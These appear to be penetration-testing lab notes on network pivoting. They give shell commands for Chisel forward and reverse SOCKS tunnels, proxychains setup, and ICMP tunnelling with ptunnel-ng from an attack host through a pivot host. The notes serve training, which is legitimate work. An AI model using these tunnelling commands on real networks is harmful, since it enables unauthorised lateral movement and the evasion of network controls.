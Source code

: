 Interacting with established session
```shell
window -i 1
```

# Chisel

Running the Chisel Server on the Pivot Host
```shell
./chisel server -v -p 1234 --socks5
```

Connecting to the Chisel Server
```shell
./chisel client -v 10.129.202.64:1234 socks
```

Editing & Confirming proxychains.conf
```shell
tail -f /etc/proxychains.conf

socks5 127.0.0.1 1080 
```

**Chisel Reverse Pivot**

Starting the Chisel Server on our Attack Host
```shell
sudo ./chisel server --reverse -v -p 1234 --socks5
```

Connecting the Chisel Client to our Attack Host
```shell
./chisel client -v 10.10.14.17:1234 R:socks
```

Editing & Confirming proxychains.conf
```shell
tail -f /etc/proxychains.conf 

socks5 127.0.0.1 1080 
```

# ICMP Tunneling with SOCKS

We will use the [ptunnel-ng](https://github.com/utoni/ptunnel-ng) tool to create a tunnel between our Ubuntu server and our attack host. Once a tunnel is created, we will be able to proxy our traffic through the `ptunnel-ng client`. We can start the `ptunnel-ng server` on the target pivot host. Let's start by setting up ptunnel-ng.

Starting the ptunnel-ng Server on the Target Host
```shell
sudo ./ptunnel-ng -r10.129.202.64 -R22
```

Connecting to ptunnel-ng Server from Attack Host
```shell
sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22
```

